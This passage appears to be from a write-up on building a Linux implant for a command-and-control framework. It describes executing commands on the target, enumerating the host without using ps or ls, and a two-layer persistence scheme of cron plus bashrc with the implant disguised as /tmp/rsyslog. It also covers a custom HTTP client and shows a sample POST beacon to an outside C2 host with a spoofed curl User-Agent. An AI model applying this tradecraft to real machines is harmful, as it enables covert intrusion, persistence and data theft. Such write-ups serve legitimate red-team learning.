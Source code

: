 1. Grabs the arguments for the command from the task request
2. Creates a pipe and spawns a child process
3. Child redirects stdout and stdin to the pipe, and uses `execve` to execute the command
4. Parent receives piped output 
5. Output is sent to the C2 in a `TaskResponse` protobuf message

While simple and detectable, this was an easy, just-works implementation of arbitrary CLI command execution.

## Host awareness: files, processes, etc.
We wanted our implant to be able to give us a good idea of the runtime context of the victim machine. For example, what processes were running (not by 
using `/bin/ps` but rather via walking the `proc` table), what files were in an arbitrary directory (using `dirent`/`opendir`/etc.), getting environment
variables, getting the machine id, etc. It was important for us to write these functions without manually calling CLI commands like `ls` or `ps` because it
is less obvious when the implant actually performs these commands.

## Persistence
For persistence, we opted for a simple cronjob persistence mechanism, due to the lack of permissions when running our implant. We wrote our implant to
`/tmp/rsyslog`, then a cronjob which runs every five minutes to call it. Further, we have a script in the bashrc which checks for the existence of the
cronjob. If it's not there, then it will write it back into the crontab. So, this is a two-layer persistence mechanism which will keep the implant 
running even if its process has been killed.

## HTTP functionality
In order to communicate with our C2 (which ran a Gunicorn server), we needed HTTP functionality. However, we didn't want to rely on a dynamically linked
`curl`, and we also didn't want to statically link it, so I wrote our own little HTTP implementation. Obviously, it had minimal features and was very simple, 
but it worked to make `GET` and `POST` requests.

An example POST request would look like this:

```http
POST /taskresponse HTTP/1.1
Host: un.ethicalhack.ing
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/x-protobuf
Content-Length: 16

[protobuf msg]
```
## mbedTLS
The implant needed a TLS library to secure communications with the C2. I decided to go with mbedTLS because of its ease of use, and because I would need to statically link this -- 
can't rely on the victim machine having this library -- it also was great due to its low footprint on disk. OpenSSL is notoriously
complicated and also is pretty large, so I wanted to take a path of least resistance. 
